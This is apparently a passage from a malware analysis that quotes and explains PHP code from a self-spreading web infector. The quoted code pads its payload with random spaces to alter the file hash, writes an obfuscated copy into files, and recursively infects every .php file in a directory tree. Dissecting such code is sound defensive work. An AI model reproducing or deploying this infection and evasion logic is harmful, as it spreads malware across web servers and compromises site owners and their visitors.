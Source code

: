 		$prob = rand(5,500);
		for($i=0; $i<700 + $prob; $i++)
		{
			$code = $code .' ';
		}

You saw that?. The whole PHP gets padded a random number of spaces. Maybe some sort of detection avoidance? I supose at least this changes the md5 calculated before...

		$code_t = Codee($code_t);
		$code = $code .'/*'.$md.'_on*/ '. $code_t .' /*'.$md.'_off*/'.' ?>' . $tmp;
		$f = fopen($fname,"w");
		fputs($f,$code);
		fclose($f);
	}

	chmod($fname,0644);
    }

The function ends inserting a pair of comments containing the md5 hash of the file, the obfuscated full code generated by Codee and the ending php tag. It's then saved to the provided file and closed.

Now we get to this function, called *dir_num*. Doesn't look that dangerous, that name, does it? Well, turns out that it is. The code is:

	function dir_num($dir)
	{
		global $fileslist;
		static $deep = 0;
		$odir = @opendir($dir);
		while (($file = @readdir($odir)) !== FALSE)
		{
			if ($file == '.' || $file == '..')
			{
				continue;
			}
			else
			{
				echo '. ';
				if(get_file_extension($file) == 'php')
				{
					modify($dir.DIRECTORY_SEPARATOR.$file);
				}
			}
			if (is_dir($dir.DIRECTORY_SEPARATOR.$file))
			{
				$deep ++;
				dir_num($dir.DIRECTORY_SEPARATOR.$file);
				$deep --;
			}
		}
		@closedir($odir);
	}
